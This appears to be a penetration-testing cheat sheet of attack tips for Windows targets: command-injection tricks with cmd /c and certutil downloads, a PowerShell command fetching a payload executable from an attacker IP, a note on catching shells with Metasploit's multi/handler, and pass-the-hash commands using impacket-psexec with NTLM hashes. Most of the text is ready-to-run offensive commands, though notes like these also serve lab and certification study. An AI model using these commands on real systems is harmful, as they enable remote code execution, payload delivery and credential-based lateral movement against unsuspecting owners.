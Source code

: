 # RCE / Command Injection
- If normal command execution doesn't work, try to use `cmd /c <your command here>`.
- You can add `certutil.exe` command without the name of the output file.
- You can add `certutil.exe` URL without single/double quotes.
- If you cannot run executables like whoami, systeminfo; then go to `C:\Windows\system32` folder to run this commands, because they may not be on our `PATH`.

# File Transfer
**Note: Netcat doesn't know how to handle a staged payload. To get a functional interactive command prompt, we can use Metasploit's `multi/handler` module, which works for the majority of staged, non-staged, and more advanced payloads.**
PowerShell:
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
```
# Pass The Hash
## psexec.py
```
impacket-psexec -hashes 00000000000000000000000000000000:<NTLM> <user>@<ip>
```
```
python psexec.py -hashes 00000000000000000000000000000000:<NTLM> Administrator@192.168.1.105
```
## smbclient.py
```

```
[HINT](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)

